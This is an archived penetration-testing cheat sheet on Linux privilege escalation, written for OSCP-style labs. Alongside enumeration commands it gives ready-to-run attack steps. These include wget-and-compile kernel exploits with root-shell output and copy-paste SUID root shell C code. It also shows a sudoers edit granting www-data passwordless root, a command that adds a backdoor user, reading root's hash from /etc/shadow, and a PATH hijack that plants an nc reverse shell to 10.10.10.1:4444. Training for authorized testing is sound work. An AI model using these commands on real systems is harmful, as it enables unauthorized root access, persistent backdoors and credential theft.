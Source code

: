 *   ## [](#linux-privilege-escalation)Linux Privilege Escalation

*   Defacto Linux Privilege Escalation Guide - A much more through guide for linux enumeration:[https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](http://web.archive.org/web/20171113221652/https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

*   Try the obvious - Maybe the user is root or can sudo to root:

    `id`

    `sudo su`

*   Here are the commands I have learned to use to perform linux enumeration and privledge escalation:

    What users can login to this box (Do they use thier username as thier password)?:

    `grep -vE "nologin|false" /etc/passwd`

    What kernel version are we using? Do we have any kernel exploits for this version?

    `uname -a`

    `searchsploit linux kernel 3.2 --exclude="(PoC)|/dos/"`

    What applications have active connections?:

    `netstat -tulpn`

    What services are running as root?:

    `ps aux | grep root`

    What files run as root / SUID / GUID?:

         find / -perm +2000 -user root -type f -print
         find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
         find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.
         find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.
         find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
         for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done  
         find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null

    What folders are world writeable?:

         find / -writable -type d 2>/dev/null      # world-writeable folders
         find / -perm -222 -type d 2>/dev/null     # world-writeable folders
         find / -perm -o w -type d 2>/dev/null     # world-writeable folders
         find / -perm -o x -type d 2>/dev/null     # world-executable folders
         find / \( -perm -o w -perm -o x \) -type d 2>/dev/null   # world-writeable & executable folders

*   There are a few scripts that can automate the linux enumeration process:

    *   Google is my favorite Linux Kernel exploitation search tool. Many of these automated checkers are missing important kernel exploits which can create a very frustrating blindspot during your OSCP course.

    *   LinuxPrivChecker.py - My favorite automated linux priv enumeration checker -

        [https://www.securitysift.com/download/linuxprivchecker.py](http://web.archive.org/web/20171113221652/https://www.securitysift.com/download/linuxprivchecker.py)

    *   LinEnum - (Recently Updated)

    [https://github.com/rebootuser/LinEnum](http://web.archive.org/web/20171113221652/https://github.com/rebootuser/LinEnum)

    *   linux-exploit-suggester (Recently Updated)

    [https://github.com/mzet-/linux-exploit-suggester](http://web.archive.org/web/20171113221652/https://github.com/mzet-/linux-exploit-suggester)

    *   Highon.coffee Linux Local Enum - Great enumeration script!

        `wget https://highon.coffee/downloads/linux-local-enum.sh`

    *   Linux post exploitation enumeration and exploit checking tools

    [https://github.com/reider-roque/linpostexp](http://web.archive.org/web/20171113221652/https://github.com/reider-roque/linpostexp)
    
    *   Linux Privilege Escalation Awesome Script

    [LinPeas](https://github.com/carlospolop/PEASS-ng)

Handy Kernel Exploits

*   CVE-2010-2959 - 'CAN BCM' Privilege Escalation - Linux Kernel < 2.6.36-rc1 (Ubuntu 10.04 / 2.6.32)

    [https://www.exploit-db.com/exploits/14814/](http://web.archive.org/web/20171113221652/https://www.exploit-db.com/exploits/14814/)

         wget -O i-can-haz-modharden.c http://www.exploit-db.com/download/14814
         $ gcc i-can-haz-modharden.c -o i-can-haz-modharden
         $ ./i-can-haz-modharden
         [+] launching root shell!
         # id
         uid=0(root) gid=0(root)

*   CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8  
    [https://www.exploit-db.com/exploits/15285/](http://web.archive.org/web/20171113221652/https://www.exploit-db.com/exploits/15285/)

*   CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)  
    [https://git.zx2c4.com/CVE-2012-0056/about/](http://web.archive.org/web/20171113221652/https://git.zx2c4.com/CVE-2012-0056/about/)  
    Linux CVE 2012-0056

          wget -O exploit.c http://www.exploit-db.com/download/18411 
          gcc -o mempodipper exploit.c  
          ./mempodipper

*   CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8  
    [https://dirtycow.ninja/](http://web.archive.org/web/20171113221652/https://dirtycow.ninja/)  
    First existed on 2.6.22 (released in 2007) and was fixed on Oct 18, 2016

*   Run a command as a user other than root

          sudo -u haxzor /usr/bin/vim /etc/apache2/sites-available/000-default.conf

*   Add a user or change a password

          /usr/sbin/useradd -p 'openssl passwd -1 thePassword' haxzor  
          echo thePassword | passwd haxzor --stdin

*   Local Privilege Escalation Exploit in Linux

    *   **SUID** (**S**et owner **U**ser **ID** up on execution)  
        Often SUID C binary files are required to spawn a shell as a superuser, you can update the UID / GID and shell as required.

        below are some quick copy and paste examples for various shells:

              SUID C Shell for /bin/bash  

              int main(void){  
              setresuid(0, 0, 0);  
              system("/bin/bash");  
              }  

              SUID C Shell for /bin/sh  

              int main(void){  
              setresuid(0, 0, 0);  
              system("/bin/sh");  
              }  

              Building the SUID Shell binary  
              gcc -o suid suid.c  
              For 32 bit:  
              gcc -m32 -o suid suid.c

    *   Create and compile an SUID from a limited shell (no file transfer)

              echo "int main(void){\nsetgid(0);\nsetuid(0);\nsystem(\"/bin/sh\");\n}" >privsc.c  
              gcc privsc.c -o privsc

*   Handy command if you can get a root user to run it. Add the www-data user to Root SUDO group with no password requirement:

    `echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update`

*   You may find a command is being executed by the root user, you may be able to modify the system PATH environment variable to execute your command instead. In the example below, ssh is replaced with a reverse shell SUID connecting to 10.10.10.1 on port 4444.

         set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"
         echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh
         chmod +x ssh

*   SearchSploit

              searchsploit –uncsearchsploit apache 2.2  
              searchsploit "Linux Kernel"  
              searchsploit linux 2.6 | grep -i ubuntu | grep local  
              searchsploit slmail

*   Kernel Exploit Suggestions for Kernel Version 3.0.0

    `./usr/share/linux-exploit-suggester/Linux_Exploit_Suggester.pl -k 3.0.0`

*   Precompiled Linux Kernel Exploits - _**Super handy if GCC is not installed on the target machine!**_

    [_https://www.kernel-exploits.com/_](http://web.archive.org/web/20171113221652/https://www.kernel-exploits.com/)

*   Collect root password

    `cat /etc/shadow |grep root`

*   Find and display the proof.txt or flag.txt - LOOT!

            cat `find / -name proof.txt -print`
